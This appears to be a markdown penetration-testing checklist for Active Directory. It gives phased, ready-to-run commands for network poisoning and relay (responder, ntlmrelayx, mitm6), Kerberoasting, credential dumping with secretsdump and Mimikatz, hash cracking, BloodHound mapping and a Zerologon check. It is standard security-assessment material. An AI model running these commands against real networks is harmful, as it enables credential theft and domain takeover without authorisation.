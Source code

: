 ### Phase 1: Initial Access & Enumeration (30 minutes)
```bash
# ✅ Network Discovery
nmap -sC -sV -oA initial_scan target_range
```

#### LLMNR/NBT-NS Poisoning
- [ ] **[LLMNR Poisoning](./llmnr-poisoning.md)** - `responder -I eth0 -wrf`
- [ ] **[SMB Relay](./smb-relay-attacks.md)** - `ntlmrelayx.py -tf targets.txt -smb2support`
- [ ] **[IPv6 Attacks](./ipv6-attacks.md)** - `mitm6 -d domain.local`

#### Initial Credential Gathering
- [ ] **[Passback Attacks](./passback-attacks.md)** - Target printers and IoT devices
- [ ] **Password Spraying** - Test common passwords against user lists
- [ ] **[Pass Attacks](./pass-attacks.md)** - Use any obtained credentials immediately

### Phase 2: Post-Compromise Quick Wins (30 minutes)
```bash
# ✅ Quick Assessment with any valid credentials
crackmapexec smb target_range -u username -p password --shares
```

#### Immediate Post-Compromise Actions
- [ ] **[Kerberoasting](./kerberoasting.md)** - `GetUserSPNs.py domain.local/user:pass -request`
- [ ] **[GPP/cPassword](./gpp-cpassword-attacks.md)** - `auxiliary/scanner/smb/smb_enum_gpp`
- [ ] **Secretsdump** - `secretsdump.py domain.local/user:pass@target`
- [ ] **[LNK File Attacks](./lnk-file-attacks.md)** - `netexec smb target -M slinky`

#### Credential Dumping & Analysis
- [ ] **[Mimikatz](./mimikatz-overview.md)** - `privilege::debug` → `sekurlsa::logonpasswords`
- [ ] **[Token Impersonation](./token-impersonation.md)** - `load incognito` → `list_tokens -u`
- [ ] **Hash Cracking** - `hashcat -m 13100 hashes.txt rockyou.txt`

### Phase 3: Deep Enumeration & Privilege Escalation (60 minutes)
```bash
# ✅ Comprehensive Domain Analysis
bloodhound-python -d domain.local -u user -p pass -gc dc.domain.local -c all
```

#### Domain Environment Mapping
- [ ] **[Domain Enumeration](./domain-enumeration.md)** - Comprehensive AD reconnaissance
- [ ] **BloodHound Analysis** - Privilege escalation path identification
- [ ] **Service Enumeration** - SQL, Exchange, file servers, etc.
- [ ] **[Recent AD Vulnerabilities](./recent-ad-vulnerabilities.md)** - `crackmapexec smb range -M zerologon`

#### Advanced Attack Techniques
- [ ] **Delegation Attacks** - Constrained/Unconstrained delegation abuse
- [ ] **Certificate Attacks** - AD CS vulnerabilities (if present)
- [ ] **Backup System Targeting** - Often contain high-privilege credentials
- [ ] **Application-Specific Attacks** - SQL injection, web app vulnerabilities
